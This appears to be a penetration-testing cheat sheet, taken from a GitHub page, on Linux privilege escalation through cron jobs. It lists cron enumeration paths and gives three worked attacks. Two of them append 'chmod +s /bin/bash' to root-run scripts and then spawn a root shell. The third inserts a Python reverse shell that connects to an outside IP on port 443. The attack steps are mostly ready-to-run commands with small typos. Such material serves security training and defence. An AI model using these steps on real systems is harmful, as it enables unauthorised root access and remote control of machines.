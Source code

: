 ## __Cron Tabs & Scheduled Tasks__

Cron jobs is a time-based job scheduler in Unix-like computer operating systems. Users that set up and maintain software environments use cron to schedule jobs to run periodically at fixed times, dates, or intervals

Enumeration

```ps1
contab -l
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
```
Example 1

Privilege Escalation via Nonexistent File Overwrite

```ps1
cat /etc/crontab
Output Example: * * * * * root systemupdate.sh
echo 'chmod +s /bin/bash' > /home/user/systemupdate.sh
chmod +x /home/user/systemupdate.sh
Wait a while
/bin/bash -p
id && whoami
```

Example 2

Privilege Escalation via Root Executable Bash Script

```ps1
cat /etc/crontab
Output Example: * * * * * root /usr/bin/local/network-test.sh
echo "chmod +s /bin/bash" >> /usr/bin/local/network-test.sh
Wait a while
id && whomai
```

Example 3

Privilege Escalation via Root Executable Python Script Overwrite

Target

```ps1
cat /etc/crontab
Output Example: * * * * * root /var/www/html/web-backup.py
cd /var/www/html/
vi web-backup.py
Add the below to the script:

import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.10.10",443)); 
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
```